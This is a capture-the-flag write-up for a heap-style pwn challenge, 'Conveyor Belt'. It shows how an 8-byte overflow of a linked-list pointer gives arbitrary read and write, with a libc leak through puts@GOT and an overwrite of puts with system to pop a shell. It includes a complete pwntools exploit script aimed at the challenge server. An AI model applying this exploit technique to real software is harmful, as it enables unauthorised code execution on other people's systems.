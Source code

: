 # Conveyor Belt

Conveyor belt.

Running the binary, we have two options - add a part to the conveyor belt, and review the belt. When we review the belt, it goes through all the parts we have one by one, printing them, asking us if they are safe. If we say they aren't\(that is, not responding with 'Y' or 'y'\) then we can edit the part.

Let's chuck it into ghidra and see what more we can get.

First of all, we see that the add\_part function is like so - It seems to take a parameter being the address of the previous part. allocate 0x80 bytes of data. Read 0x80 bytes of data from stdin into this place. If the string contains "sh", say the part isn't safe, free the allocated data, return the parameter we got\(essentially dont make any chunk and pretend nothing ever happened\)

If not, then edit datapointer+0x78 to be the address of the previous part. Essentially, the parts are in the structure

```c
struct part {
char name[0x78];
char* previous_part;
}
```

Forming a list. The problem is, whenever it asks us to edit a part, it reads 0x80 bytes when only 0x78 are the data segment - giving us an overwrite of the previous\_part field. More on this later.

Let's look at the safety check function. It starts on the last part, printing it, asking is if it's safe, and allowing us to edit it if it isn't. Here's our main vuln. An extra 8 bytes are read, letting us overwrite the previous\_part field. The function then grabs the previous part field, visits that, prints it, asks if it's safe, etc. etc. until it hits a previous\_part field of 0.

What can we do with this? We can create a single part, then activate the safety check. We can edit the previous part field in-place, and then it'll go wherever we want for the next part! This creates two things

1. Arbitrary read, as it'll print out the part.
2. Arbitrary write, as we can say the part isn't safe, and then edit it.

   Therefore...

   We can set the previous part field to puts@GOT, allowing us to read a libc address. Once we read this, we'll edit puts@GOT too! Let's edit it with the address of system.

Now what? It'll look 0x78 bytes later for the address of the next part, then continue. It'll grab this address, call puts\("Next part:"\) and then calls puts on the next part.

Therefore, if we pretend the next part is the address of /bin/sh, it'll call system\("/bin/sh"\) for us. So, our exploit:

1. Create new part
2. Safety check. Say the part isn't safe. Edit it with 0x78 bytes of junk + address of puts@GOT
3. It'll print the value of puts@got, which is puts@LIBC. Read this value, and subtract appropriate offset to get the libc base. Say part isn't safe. Send system address + 0x70 bytes of junk + /bin/sh address such that whenever it calls puts it'll actually call system, and the next thing it will call puts on is /bin/sh

Script below.

```python
from pwn import *
mode = sys.argv[1]
NUM_TO_NEXTPART = 0x78
padding = b'A' * NUM_TO_NEXTPART
e = ELF("./conveyor")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = e.process() if mode == 'local' else remote('jh2i.com', 50020)
p.recvuntil(b"> ")
p.sendline("1")
p.recvuntil(b": ")
p.sendline("l33t")
p.sendline("2")
p.recvuntil(b"? ")
p.sendline("no")
p.recvuntil(b": ")
# Setup is done. Time for the main exploit.
payload = padding + p64(e.got['puts'])
p.sendline(payload)
p.recvline()
output = p.recvline()[:-1]
print(output)
leak = output + b'\x00' * (8 - len(output))
puts = u64(leak)
log.info(f"Puts address: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
# Overwrite puts with system. Then, overwrite next part address with /bin/sh. So, it'll load /bin/sh as the next part. It'll try to puts the next part, and boom! Shell popped.
new = p64(libc.symbols['system'])
new += b'B' * (0x78 - len(new))
new += p64(next(libc.search(b"/bin/sh")))
p.sendline(new)
p.interactive()
```

## Flag: flag{you\_broke\_the\_conveyor}


